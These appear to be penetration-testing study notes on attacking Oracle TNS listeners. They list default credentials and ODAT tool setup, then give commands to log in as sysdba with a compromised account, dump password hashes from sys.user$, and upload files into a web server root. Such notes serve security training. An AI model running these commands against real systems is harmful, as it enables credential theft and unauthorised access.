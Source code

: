 # Oracle TNS

Oracle TNS = Oracle Transparent Network Substrate

Communication protocol between Oracle databases and applications over networks.

It supports IPX/SPX, UDP and TCP/IP protocol stacks.

- built-in encryption
- support IPv6 and SSL/TLS

Default port : TCP/1521


# Configuration

Configuration files located on the listener Oracle TNS server :
- client-side Oracle Net Services software : ORACLE_HOME/network/admin/tnsnames.ora
    resolve service names to network addresses
- listener process : ORACLE_HOME/network/admin/listener.ora
    determine the services it should listen to and the behavior of the listener

Oracle 9 : default password "CHANGE_ON_INSTALL"
Oracle 10 : no default password

Oracle DBSNMP : default password "dbsnmp"

\$ORACLE_HOME/sqldeveloper/PlsqlExclusionList : packages or types that should be excluded from execution

## Interesting parameters 


# Footprinting the service

## Enumeration

sudo nmap -p1521 -sV $TARGET --open

## Oracle-Tools-setup.sh

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete

## Interaction

cd odat/
./odat.py -h
./odat.py all -s $TARGET

sqlplus user/password@$TARGET/XE;

If sqlplus: error

sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig

sqlplus $user/$password@$TARGET/XE;

select table_name from all_tables;
select * from user_role_privs;

## Interaction as sysdba


Using a compromised account to log in as the System Database Admin (sysdba) :
sqlplus $user/$password@$TARGET/XE as sysdba

select name, password from sys.user$;

## Upload file

echo "Oracle File Upload Test" > testing.txt

/odat.py utlfile -s $TARGET -d XE -U $user -P $password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

curl -X GET http://$TARGET/testing.txt

